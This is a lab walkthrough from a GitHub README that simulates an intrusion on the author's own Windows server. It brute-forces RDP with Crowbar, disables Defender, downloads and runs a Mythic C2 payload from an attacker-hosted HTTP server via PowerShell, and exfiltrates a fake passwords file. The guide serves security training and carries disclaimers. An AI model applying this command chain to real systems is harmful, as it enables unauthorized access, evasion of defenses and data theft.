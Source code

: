 # Day-21-Simulating-a-Brute-Force-Attack-with-Mythic-C2

In today’s guide, we will dive into an exciting exercise where we perform a brute force attack on a Windows server and generate our own Mythic agent to establish a Command and Control (C2) session. For this demonstration, we’ll use **Kali Linux**, **Mythic C2**, and a **Windows Server** hosted on Vultr’s cloud platform. By the end, you’ll have a complete walkthrough of the attack phases—from brute-forcing a password to executing payloads on a compromised Windows machine.

## Attack Phases

The guide is divided into six attack phases:

1. **Initial Access**
2. **Discovery**
3. **Defense Evasion**
4. **Execution**
5. **Command & Control**
6. **Exfiltration**

> **Disclaimer**: This tutorial is for educational purposes only. Do NOT attempt this on any system you don’t have permission to access. Engaging in unauthorized hacking activities can lead to legal consequences.

---

## Setting Up for the Attack

Before jumping into the action, let’s set up our environment. I’m using **Vultr** to host a Windows server, but you can use any cloud platform.

### Step 1: Create a Fake File on Windows Server

1. Log in to your Vultr account and open the Windows Server console.
2. Create a file called `passwords.txt` on the server’s desktop.
3. Write a fake password (e.g., `Winter123!`) to simulate sensitive information.
4. Change the server password via Group Policy, reducing the minimum password character limit to 5, and update your password.

---

## Attack Walkthrough

### Phase 1: Initial Access — Brute Force Attack Using Kali Linux

#### Step 1: Setting Up the Target — Fake Password File

1. Log in to your Windows Server and create a file called `passwords.txt` on the desktop.
2. Write a fake password (e.g., `SuperSecret123!`).
3. Update the server’s password by allowing shorter passwords (minimum 5 characters).

#### Step 2: Prepare a Custom Wordlist in Kali Linux

1. Navigate to the wordlist directory:
    ```bash
    cd /usr/share/wordlists
    ```
2. Use the first 50 lines of the `brute.txt` wordlist to create a smaller list:
    ```bash
    head -50 brute.txt > /home/kali/aurora-wordlist.txt
    ```
3. Edit the wordlist and insert the real password for proof of concept:
    ```bash
    nano /home/kali/aurora-wordlist.txt
    ```

#### Step 3: Brute Force the Windows RDP Login

1. Install Crowbar, a brute-force tool for RDP:
    ```bash
    sudo apt-get install -y crowbar
    ```
2. Run Crowbar to brute force the RDP login:
    ```bash
    crowbar -b rdp -u Administrator -C /home/kali/brute.txt -s [Windows-Server-IP]/32
    ```

### Phase 2: Discovery — Gathering Information on the Compromised Server

1. RDP into the Windows Server using `xfreerdp`:
    ```bash
    xfreerdp /u:Administrator /p:[Brute-Forced-Password] /v:[Windows-Server-IP]:3389
    ```
2. Execute basic discovery commands:
    ```bash
    whoami
    ipconfig
    net user
    net group
    ```

### Phase 3: Defense Evasion — Disabling Windows Defender

1. Open Windows Security and go to **Virus & Threat Protection**.
2. Turn off **Real-time protection**.

### Phase 4: Execution — Deploying the Mythic C2 Agent

#### Step 1: Install the Apollo Agent in Mythic

1. Install the Apollo agent:
    ```bash
    ./mythic-cli install GitHub https://github.com/MythicAgents/Apollo.git
    ```

#### Step 2: Install the HTTP C2 Profile

1. Install the HTTP C2 Profile:
    ```bash
    ./mythic-cli install GitHub https://github.com/MythicC2Profiles/http
    ```

#### Step 3: Generate the Payload

1. In Mythic’s GUI, generate a new payload for Windows using the HTTP C2 profile.

#### Step 4: Download the Payload via SSH

1. Download the payload with `wget`:
    ```bash
    wget [payload-url] --no-check-certificate
    ```

#### Step 5: Host the Payload on an HTTP Server

1. Serve the payload using Python HTTP server:
    ```bash
    python3 -m http.server 9999
    ```
2. Allow traffic through the firewall:
    ```bash
    sudo ufw allow 9999
    ```

#### Step 6: Download and Execute the Payload on Windows Server

1. Download the payload using PowerShell:
    ```powershell
    Invoke-WebRequest -Uri http://[Mythic-Server-IP]:9999/svc-aurora.exe -Outfile "C:\Users\Public\downloads\svc-aurora.exe"
    ```

2. Execute the payload:
    ```powershell
    .\svc-aurora.exe
    ```

### Phase 5: Command & Control — Establishing a C2 Session

1. Confirm the callback in Mythic’s GUI.
2. Interact with the compromised server using Mythic.

### Phase 6: Exfiltration — Stealing the Fake Password File

1. Download the fake file using Mythic:
    ```bash
    download C:\Users\Administrator\Documents\passwords.txt
    ```

---

## Conclusion: Power and Responsibility

While this attack scenario demonstrates the power of tools like Mythic C2, remember to use this knowledge ethically and responsibly. Always have explicit permission before testing any system.

In the next blog, we’ll focus on defensive measures to detect and monitor Mythic C2 activities. Stay tuned!

---

### Safety Disclaimer

This guide is designed for educational purposes. Unauthorized access to computer systems is illegal and unethical. Use these skills to secure systems, not exploit them.

